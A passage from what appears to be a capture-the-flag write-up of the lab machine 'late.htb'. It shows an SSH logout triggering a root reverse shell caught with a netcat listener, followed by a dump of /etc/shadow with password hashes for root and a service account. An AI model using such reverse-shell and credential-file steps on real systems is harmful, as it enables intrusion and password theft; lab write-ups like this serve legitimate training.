 then logout from the ssh session:

```bash
svc_acc@late:/usr/local/sbin$ exit
logout
Connection to late.htb closed.
[werz@Arch user]$ 
```

and we got a root reverse shell hit back!

```bash
[werz@Arch root]$ nc -lvnp 9002
Connection from 10.10.11.156:42138
bash: cannot set terminal process group (27748): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# cat /etc/shadow  
cat /etc/shadow
root:$6$a6J2kmTW$cHVk8PYFcAiRyUOA38Cs1Eatrz48yp395Cmi7Fxszl/aqQooB.6qFmhMG1LYuHJpGvvaE1cxubWIdIc1znRJi.:19089:0:99999:7:::
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::
gnats:*:18480:0:99999:7:::
nobody:*:18480:0:99999:7:::
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
syslog:*:18480:0:99999:7:::
messagebus:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::
lxd:*:18480:0:99999:7:::
uuidd:*:18480:0:99999:7:::
dnsmasq:*:18480:0:99999:7:::
landscape:*:18480:0:99999:7:::
pollinate:*:18480:0:99999:7:::
sshd:*:18997:0:99999:7:::
svc_acc:$6$/WRA.GuP$fusYGh.OucHDQzn5.9XdFMO6hcVw7ayD1B9/MVrxKFyv0PDd51.3JUA9qgQMU1Mnvlfjw9xSDb98B1xMwdtZH.:19008:0:99999:7:::
rtkit:*:18997:0:99999:7:::
usbmux:*:18997:0:99999:7:::
avahi:*:18997:0:99999:7:::
cups-pk-helper:*:18997:0:99999:7:::
saned:*:18997:0:99999:7:::
colord:*:18997:0:99999:7:::
pulse:*:18997:0:99999:7:::
geoclue:*:18997:0:99999:7:::
smmta:*:19006:0:99999:7:::
smmsp:*:19006:0:99999:7:::
root@late:/# 
```